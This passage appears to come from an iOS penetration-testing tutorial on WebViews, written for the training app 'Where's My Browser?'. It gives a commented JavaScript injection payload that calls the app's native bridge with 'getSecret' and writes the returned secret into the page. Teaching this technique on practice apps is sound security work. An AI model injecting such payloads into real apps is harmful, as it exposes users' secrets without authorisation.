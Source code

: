**Example on Web Views Javascript:**

In order to get the secret from the `Where's My Browser?` app, you can use one of these techniques to inject the following payload that will reveal the secret by writing it to the "result" field of the WebView:

```javascript
/**
 * JavaScript Bridge Callback Function
 * This function is called by native iOS code to return data to the web page
 * 
 * @param {string} name: The name/identifier of the callback or method being called
 * @param {string} value: The data/value returned from the native iOS side
 */
function javascriptBridgeCallBack(name, value) {
    // Update the HTML element with ID "result" to display the returned value
    // This is typically used to show the result of a native operation on the web page
    document.getElementById("result").innerHTML = value;
};

/**
 * Send a message from JavaScript to the native iOS WKWebView
 * This uses the WebKit message handler system to communicate with the iOS app
 */
window.webkit.messageHandlers.javaScriptBridge.postMessage(["getSecret"]);

// BREAKDOWN:
// window.webkit.messageHandlers: iOS WebKit's bridge for JavaScript-to-native communication
// .javaScriptBridge: The name of the message handler registered by the iOS app
// .postMessage(): Method to send data from JavaScript to native code
// ["getSecret"]: Array containing the command/message being sent to native code

/**
 * FLOW EXPLANATION:
 * 1. JavaScript sends "getSecret" command to iOS native code via postMessage()
 * 2. iOS app receives the message through WKScriptMessageHandler
 * 3. iOS processes the request (e.g., retrieves secret data)
 * 4. iOS calls back to JavaScript using javascriptBridgeCallBack() function
 * 5. The callback function updates the webpage with the result
 */
```

 ![image](/assets/img/ios-pentesting/Part-IV/webview-app.png)
